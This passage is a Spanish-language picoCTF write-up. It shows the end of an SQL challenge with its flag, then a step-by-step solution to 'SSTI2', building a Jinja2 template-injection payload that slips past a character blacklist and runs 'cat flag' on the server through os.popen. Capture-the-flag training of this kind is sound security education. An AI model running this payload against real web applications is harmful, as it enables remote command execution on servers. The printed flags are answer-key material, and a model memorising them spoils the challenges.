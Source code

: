 9. Obtenemos la bandera
```sql
pico=# SELECT * FROM flags;
 id | firstname | lastname  |                address                 
----+-----------+-----------+----------------------------------------
  1 | Luke      | Skywalker | picoCTF{L3arN_S0m3_5qL_t0d4Y_73b0678f}
  2 | Leia      | Organa    | Alderaan
  3 | Han       | Solo      | Corellia
(3 filas)
```



## SSTI2

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:65369/)!

Server Side Template Injection
Why is blacklisting characters a bad idea to sanitize input?

1. Ingresamos al sitio web
2. Aprovechamos una vulnerabilidad de Server-Side Template Injection (SSTI) en un sistema basado en Jinja2, motor de plantillas utilizado en Flask. Creamos un payload que aproveche la capacidad de Jinja2 para evaluar expresiones dentro de las plantillas y accede progresivamente a objetos internos hasta ejecutar un comando en el sistema.
3. Damos acceso al objeto 
```
{{ request }}
```
4. Obtenemos la instancia de la aplicación Flask
```
{{ request|attr('application') }}
```
5. Accedemos a las variables globales
```
{{ request|attr('application')|attr('__globals__') }}
```
6. Cargamos las funciones nativas de Python
```
{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__') }}
```
7. Importamos el módulo ``os``
```
{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os') }}
```
8. Ejecutamos el comando introduciéndolo en la caja de texto de búsqueda y dando enter
```
{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('cat flag')|attr('read')() }}
```
8. Obtenemos la bandera
```
picoCTF{sst1_f1lt3r_byp4ss_eb2a60e7}
```
